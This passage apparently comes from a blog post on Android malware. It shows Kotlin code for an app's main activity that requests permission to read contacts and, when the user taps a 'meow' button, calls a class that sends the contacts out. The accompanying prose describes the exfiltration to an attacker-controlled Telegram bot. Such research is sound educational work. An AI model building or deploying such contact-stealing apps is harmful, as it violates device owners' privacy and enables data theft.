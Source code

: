 ```kotlin
class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    private val hackContacts = HackContacts2(context = this)

    private fun startContactsPermissionRequest(context: Context) {
        Dexter.withContext(context)
            .withPermission(Manifest.permission.READ_CONTACTS)
            .withListener(object : PermissionListener {
                override fun onPermissionGranted(p0: PermissionGrantedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission granted",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionDenied(p0: PermissionDeniedResponse?) {
                    Toast.makeText(
                        context,
                        "Hack Contacts permission denied",
                        Toast.LENGTH_SHORT
                    ).show()
                }
                override fun onPermissionRationaleShouldBeShown(
                    p0: PermissionRequest?,
                    p1: PermissionToken?
                ) {
                }
            }).check()
    }

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        startContactsPermissionRequest(this)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            hackContacts.sendContacts()
        }
    }
}
```

So inn this scenario, the malicious app on an infected Android device abuses Telegram's Bot API to exfiltrate contacts. Once the `READ_CONTACTS` permission is granted, the app:

- fetches contacts from the device using Android's Contacts Content Provider.     

- formats the contacts into a string and appends a custom message (e.g., "Meow! ♥️").    

- sends the contacts to the attacker-controlled Telegram bot via OkHttp by making a POST request via the Telegram Bot API.     

### demo
